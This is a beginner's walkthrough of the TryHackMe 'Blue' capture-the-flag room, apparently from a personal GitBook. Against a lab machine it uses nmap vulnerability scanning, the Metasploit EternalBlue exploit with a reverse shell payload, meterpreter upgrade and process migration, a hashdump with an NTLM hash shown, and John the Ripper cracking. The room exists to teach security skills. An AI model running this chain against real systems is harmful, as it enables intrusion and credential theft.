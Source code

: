 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Blue.'
---
```


# Blue

The room can be found [here](https://tryhackme.com/room/blue). This is a pretty straight forward room, the hints and video will pretty much help anyone through it as that's what this room is meant for, to help beginners learn.

## Task 1

### Question #1: Scan the machine

We'll scan the machine with Nmap first: sudo nmap -sS -sV -vv --script vuln -oA Blue 10.10.18.94

### Question #2: How many ports are open with a port number under 1000?

Looking through our scan results we can see:\


![Nmap Scan](<../../../.gitbook/assets/image (113).png>)

We can find our answer pretty easily.

### Question #3: What is this machine vulnerable to?

Our argument of --script vuln scanned the target for any known vulnerabilities, which returned:

![](<../../../.gitbook/assets/image (22).png>)

showing the target is vulnerable to: ms17-010

## Task 2

### Question #2: Find the exploitation code we will run against the machine. What is the full path of the code?

With Metasploit up and loaded we search for ms17-010. `search ms17-010`

![](<../../../.gitbook/assets/image (43).png>)

We can see a couple different modules but as this room is called "Blue" we can guess we're after the Eternal Blue module "exploit/windows/smb/ms17\_010\_eternalblue". Knowing that is the module we want we can type out "use exploit/windows/smb/ms17\_010\_eternalblue" OR use # as in the number next to the module. For me it's 0.

Usually when selecting a module it's good to run `show options` to see what options are required to be set for this module to run. In this case, the only option that is not already set for us is the RHOST option, or our target. We set that with `set rhosts 10.10.18.94` and can verify by running `show options` again.

The room does specify one more thing before we exploit the target, it would like us to change the payload to "windows/x64/shell/reverse\_tcp" by running `set payload windows/x64/shell/reverse_tcp`.

With this payload option set, we can type `run` or `exploit` to get our shell on our target.

![](<../../../.gitbook/assets/image (13).png>)

## Task 3

Background our newly obtained shell with CTRL+Z.

### Question #1: Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use?

There's a few ways to obtain the answer to this question but rather than use google, we can do what we did before and search within metasploit. `search shell_to_meterpreter`

this should return `post/multi/manage/shell_to_meterpreter`. So let select this module with `use 0`

### Question 2: Show options, what option are we required to change?

As mentioned before, when selecting a module to use, it's usually good to run `show options` to see what options are required to be set to run this module. Running this will show you we need to set the SESSION with `set SESSION 1`.

Once that completes, reconnect back to the backgrounded session with `sessions -i 2` and verify we are the SYSTEM by running `getsystem`, we can also type `shell` and run `whoami`.

![](<../../../.gitbook/assets/image (144).png>)

Now we want migrate to a different process that is running as SYSTEM, so lets background that shell again with `CTRL+Z(Only do this IF we are in the shell and not in the meterpreter session.)`, and let's see whats other processes are running on this system by typing `ps`. Once we find a process that is already being run from the `NT AUTHORITY\SYSTEM` user, we want to take note of the PID, for example, conhost.exe, for me that PID is 2480. We can run `migrate 2480` to then migrate over to that process.

This may or may not work for you so try different processes to migrate to.

## Task 4

### Question #1: What is the name of the non-default user?

From our meterpreter session, we can run hashdump to show us all the users and hashed passwords of the users on the system.

![](<../../../.gitbook/assets/image (48).png>)

### Question #2: Copy this password hash to a file and research how to crack it. What is the cracked password?

Once we copy Jons NTLM hash `Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::`. We can crack it for this we will use JohnTheRipper. I am running this from a personally setup VM so I have John installed into the /opt/ directory and will be using the classic rockyou.txt that I have stored inside SecLists password directory.

I have copied Jons hash to a file called jonhash in my current directory. So poninting JohnTheTipper at the hash and specifying the hash format and selecting the wordlist we want to use, we can attempt to crack the hash. `sudo /opt/john/run/john jon --format=NT --wordlist=/opt/SecLists/Passwords/rockyou.txt`

![](<../../../.gitbook/assets/image (9).png>)

## Task 5

I ran `search -f flag*.txt` from the meterpreter session and was able to locate the path to flags1 2 and 3. So you can then cat the file paths to obtains the flags as well:

cat c:\\\flag1.txt

cat c:\\\Windows\\\System32\\\config\\\flag2.txt

cat c:\\\Users\\\Jon\\\Documents\\\flag3.txt
